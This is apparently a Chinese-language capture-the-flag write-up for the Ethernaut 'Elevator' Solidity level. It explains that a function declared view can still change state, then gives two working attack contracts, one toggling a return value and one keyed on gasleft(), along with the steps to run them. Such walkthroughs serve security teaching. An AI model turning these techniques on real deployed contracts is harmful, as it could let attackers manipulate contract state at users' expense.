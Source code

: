 # Elevator
关于view、pure等合约标签
```solidity
pragma solidity ^0.4.18;


interface Building {
  function isLastFloor(uint) view public returns (bool);
}


contract Elevator {
  bool public top;
  uint public floor;

  function goTo(uint _floor) public {
    Building building = Building(msg.sender);

    if (! building.isLastFloor(_floor)) {
      floor = _floor;
      top = building.isLastFloor(floor);
    }
  }
}
```

### 代码分析
```solidity
if (! building.isLastFloor(_floor)) {
      floor = _floor;
      top = building.isLastFloor(floor);
    }
```
要使top为true，即building.isLastFloor(_floor)两次调用的结果不同，第一次返回false，第二次返回true。
isLastFloor方法为view方法，该方法应该为只读取state但不修改state，但是这一点并不是强制的，即该方法如果修改
了state也是可以进行调用的。

*注意，也可以使用gasleft()来达成该攻击目的，但不对state进行修改*

### 攻击合约
官方答案：
```solidity
pragma solidity ^0.4.18;

import '../levels/Elevator.sol';

contract ElevatorAttack {
  bool public isLast = true;
  
  function isLastFloor(uint) public returns (bool) {
    isLast = ! isLast;
    return isLast;
  }

  function attack(address _victim) public {
    Elevator elevator = Elevator(_victim);
    elevator.goTo(10);
  }
}
```
使用gasleft:
```solidity
pragma solidity ^0.4.0;
contract GET {
    address addr;
    uint256 gasAmount = 100361;
    function GET() public {
        addr = 0x3359cdfc05ee2569458f6b6f52e721776cb5205e; //instance address
    }
    
    function isLastFloor(uint256 amount) public view returns(bool) {
        if (gasleft() > amount) {
            return true;
        } else {
            return false;
        }
    }
    
    // You can pass a amount between gasleft() first and gasleft() sencond
    // It will also pass the Elevator
    function send(uint256 amount) public {
        addr.gas(gasAmount).call(bytes4(keccak256("goTo(uint256)")), amount);
    }
}
```
关于amount的选定，需要通过实际的执行，通过etherscan上的geth debugtrace来追踪gas的使用情况，从而选择符合条件
的gas数量。

### 攻击方法
#### 使用官方攻击合约
1. 调用官方攻击合约的attack方法

#### 使用gasleft方法
1. 试调用send()方法（第一次可以传一个较大的值），查询到gas的使用情况（gasLimit保持一致），从而选定amount的值
2. 调用send()方法，传入正确的amount
